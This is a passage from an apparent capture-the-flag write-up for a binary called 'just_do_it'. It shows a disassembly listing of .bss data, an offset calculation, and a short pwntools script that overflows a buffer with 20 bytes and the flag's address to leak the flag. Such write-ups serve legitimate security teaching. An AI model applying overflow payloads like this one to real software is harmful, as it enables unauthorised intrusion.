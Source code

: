   ```
           0804a092 00              undefined100h                     [18]
           0804a093 00              undefined100h                     [19]
           0804a094 00              undefined100h                     [20]
           0804a095 00              undefined100h                     [21]
           0804a096 00              undefined100h                     [22]
           0804a097 00              undefined100h                     [23]
           0804a098 00              undefined100h                     [24]
           0804a099 00              undefined100h                     [25]
           0804a09a 00              undefined100h                     [26]
           0804a09b 00              undefined100h                     [27]
           0804a09c 00              undefined100h                     [28]
           0804a09d 00              undefined100h                     [29]
           0804a09e 00              undefined100h                     [30]
           0804a09f 00              undefined100h                     [31]
           0804a0a0 00              undefined100h                     [32]
           0804a0a1 00              undefined100h                     [33]
           0804a0a2 00              undefined100h                     [34]
           0804a0a3 00              undefined100h                     [35]
           0804a0a4 00              undefined100h                     [36]
           0804a0a5 00              undefined100h                     [37]
           0804a0a6 00              undefined100h                     [38]
           0804a0a7 00              undefined100h                     [39]
           0804a0a8 00              undefined100h                     [40]
           0804a0a9 00              undefined100h                     [41]
           0804a0aa 00              undefined100h                     [42]
           0804a0ab 00              undefined100h                     [43]
           0804a0ac 00              undefined100h                     [44]
           0804a0ad 00              undefined100h                     [45]
           0804a0ae 00              undefined100h                     [46]
           0804a0af 00              undefined100h                     [47]
```

We see the flag lives in the .bss section of the binary with an address of `0804a080`

There are 20 bytes worth of data from input & flag (0x28 - 0x14 = 0x14)

Now lets create the payload 

Here's my script 

```
from pwn import *

io = process('./just_do_it')

overflow = "0"*20
addr = p32(0x804a080)
payload = overflow + addr
io.send(payload)
io.send('\n')

io.interactive()
```
